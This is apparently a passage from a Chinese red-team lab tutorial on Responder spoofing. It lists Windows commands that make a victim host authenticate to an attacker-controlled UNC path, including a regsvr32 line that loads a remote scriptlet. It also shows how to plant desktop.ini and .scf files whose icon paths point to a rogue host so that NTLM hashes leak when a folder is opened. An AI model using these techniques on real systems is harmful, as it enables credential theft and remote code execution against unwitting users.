 ```bash
regsvr32 /s /u /i://x.x.x.x/@xxx scrobj.dll
echo 1 > //192.168.0.1/abc
pushd \\192.168.0.1\abc
cmd /k \\192.168.0.1\abc
cmd /c \\192.168.0.1\abc
start \\192.168.0.1\abc
mkdir \\192.168.0.1\abc
type\\192.168.0.1\abc
dir\\192.168.0.1\abc
```

### 通过文件获取hash

**图标**

可以通过图标资源来代替代 net use 这条命令，比如我们可以创建一个文件夹 test，并在 test 下再创建一个文件夹如 test2，通过给 test2 设置其他图标，能在 test2 文件夹下生成一个隐藏的系统文件 desktop.ini，而通过修改设置可以使 desktop.ini 可见，最后编辑这个文件，将图标资源指向一个不存在的主机，打开 test 文件夹之后即可获取 hash 值。

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/5.png)

此时 desktop.ini 文件已生成，需要修改配置使 desktop.ini 文件, 将原本的 IconResource 路径修改，改为如下格式后保存即可
```
IconResource=\\hello-world\test\SHELL32.dll,2
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/6.png)

当其打开这个 test 文件夹的时候，受害主机就会去请求图标资源

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/7.png)

在 Windows XP 系统中，desktop.ini 文件使用 “IcondFile” 而不是“IconResource”。
```
[.ShellClassInfo]
IconFile=\\1.1.1.1\aa
IconIndex=1337
```

**SCF文件**

我们可以使用 SCF（Shell 命令文件）文件执行有限的一组操作（例如显示 Windows 桌面或打开 Windows 资源管理器）。但是，如果使用 SCF 文件访问特定的 UNC 路径，那么我们可以发起攻击。

我们可以所有以下代码保存为. scf 文件然后放进文件共享中。

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\aaa.ico
[Taskbar]
Command=ToggleDesktop
```

保存为 .scf 文件放在文件共享中
